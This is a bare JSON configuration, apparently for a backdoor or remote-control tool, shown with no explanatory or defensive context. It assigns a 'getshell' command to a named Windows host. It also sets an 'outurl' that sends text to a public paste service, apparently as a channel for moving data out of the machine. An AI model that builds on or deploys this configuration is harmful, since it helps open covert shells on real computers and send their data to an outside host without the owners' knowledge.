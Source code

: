 
{
    "DESKTOP-F9DL2LO": {
        "getshell": "r t 127.0.0.1 8080~open"
    },
    "all": {
        "outurl": "http://kl1p.com/oopkc?save=true&id=&type=plain&name=oopkc&nid=&param=&client=web&text="
    }
}
